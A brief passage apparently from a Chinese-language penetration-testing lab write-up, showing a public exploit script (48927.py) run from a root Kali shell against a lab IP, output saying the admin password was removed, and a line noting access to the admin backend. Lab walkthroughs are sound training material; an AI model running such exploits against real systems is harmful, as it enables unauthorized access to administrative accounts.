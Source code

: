 ```bash
┌──(root㉿pinginglab)-[/home/pinginglab]
└─# python3 48927.py 192.168.231.140
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
```

![image-20230904181853541](%E9%9D%B6%E5%9C%BA%E8%AE%AD%E7%BB%83.assets/image-20230904181853541.png)

成功进入后台

![image-20230904181907224](%E9%9D%B6%E5%9C%BA%E8%AE%AD%E7%BB%83.assets/image-20230904181907224.png)
